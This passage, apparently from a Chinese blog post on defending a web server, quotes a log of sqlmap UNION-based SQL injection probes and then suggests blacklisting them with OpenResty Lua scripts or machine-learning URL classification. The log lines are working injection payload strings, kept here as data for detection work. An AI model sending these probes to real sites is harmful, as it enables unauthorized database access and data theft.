GET /?a=1') UNION ALL SELECT NULL, NULL, NULL-- AND ('ybnv'='ybnv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL-- AND ('xgNZ'='xgNZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND ('NcqU'='NcqU HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND ('QwuM'='QwuM HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('taty'='taty HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('WMQh'='WMQh HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('xCZi'='xCZi HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('mLyg'='mLyg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL-- AND 'uZYX'='uZYX HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL-- AND 'sNHY'='sNHY HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL-- AND 'kGUJ'='kGUJ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL-- AND 'LgDK'='LgDK HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND 'EVdv'='EVdv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND 'rJml'='rJml HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'DaKV'='DaKV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'nUAD'='nUAD HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'yeMd'='yeMd HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'ttBR'='ttBR HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
</code></pre>

从上面的内容可以看出攻击行为有一定的规律，应该可以通过lua脚本将其识别出来直接丢到blacklist里。

在github上找到这个<https://github.com/openresty/lua-nginx-module#ngxquote_sql_str>

google 论坛上：<https://groups.google.com/forum/#!topic/openresty/Jn171sBKc0k>

对于这类很好分类的url，我觉得可以利用机器学习的办法来学习bad URL，来做分类。

不过这140条数据还是有的学习借鉴的，后期再系统学一下lua吧
</div>
